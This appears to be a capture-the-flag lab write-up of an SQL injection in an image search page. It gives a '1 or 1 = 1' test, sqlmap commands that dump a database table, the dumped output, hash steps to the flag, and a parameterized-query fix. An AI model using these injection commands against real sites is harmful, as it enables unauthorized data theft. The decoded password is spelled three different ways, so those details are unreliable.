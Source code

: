 VULNERABILTY__
   => Search image tag, is vulnerable to sql injection.


EXPLOIT_?
    step1 ) => see if the sight reposnds to an SQL Injection
    nu typing  [ 1 or 1 = 1], in the search bar and then press Enter.

    step 2) => if the page returns information about an image,
        open terminal, copy the URL and paste in sqlmap
        like so,

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables

        => this should return the schema's of the database.
        => then 

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T list_images

        ^ should retune the table:
        
        
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+

    => copy and paste " 1928e8083cf461a51303633093573c46" on  "https://www.md5online.org/md5-decrypt.html" to get
    a decoded string i.e "albatroz", then then type "abatroz" in "https://passwordsgenerator.net/sha256-hash-generator/"
    to get the Flag "5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B"

 1928e8083cf461a51303633093573c46 => albaroz => 5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B

SOLUTION:

    Use SQL Parameters (parametized Queries)
    for Protection e.g txtNam = getRequestString("CustomerName");
                        txtAdd = getRequestString("Address");
                        txtCit = getRequestString("City");
                        txtSQL = "INSERT INTO Customers (CustomerName,Address,City) Values(@0,@1,@2)";
                        db.Execute(txtSQL,txtNam,txtAdd,txtCit);

    => use prepared statements  and  stored procedure                              
  